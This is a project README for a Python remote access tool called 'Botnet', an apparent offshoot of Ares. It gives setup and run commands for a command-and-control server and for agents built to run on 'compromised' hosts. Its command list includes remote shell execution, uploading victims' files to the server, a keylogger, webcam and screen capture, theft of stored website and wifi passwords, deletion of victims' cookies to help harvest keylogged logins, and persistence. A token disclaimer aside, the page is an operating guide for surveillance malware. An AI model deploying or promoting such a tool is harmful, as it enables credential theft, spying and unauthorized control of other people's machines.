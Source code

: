# Botnet
Botnet is a Python3 Remote Access Tool.

__Warning: Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Botnet is, just like Ares, made of two programs:

- A Command And Control server which is a web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the C&C


Differences?
1. Updated from python 2 -> python 3
2. Extra features like screencaptures, webcam capture, keylogger, password grabber (websites and wifi), ...

## Setup

__Note: I suggest creating a virtual environment__

Install the python requirements: 

```
pip install -r requirements.txt
```

Initialize the database:

```
cd Server
./server initdb
```

## Server
Run the (debug) server:

```
./server.py runserver -h 0.0.0.0 -p 8080 --threaded
```

The server must now be accessible on http://localhost:8080

## Agent
Run the agent (update config.py to suit your needs):

```
cd agent
./agent.py
```

Build an agent to a standalone library and run it:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
```

To see a list of supported options run

```
./builder.py -h
```

## Commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

python <command|file>
Runs a Python command or local file.

screenshot
Takes a screenshot and uploads the image to server.

camshot
Takes a webcam image and uploads the image to server.

keylogger
Shows all pressed keys since start up.

passwords
Shows all stored passwords on the pc, including websites and wifi.

delete passwords
Deletes all stored cookies from the victims' pc. 
This way you could try to retreive password from keylogs if you cannot get them from the passwords command.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.
```
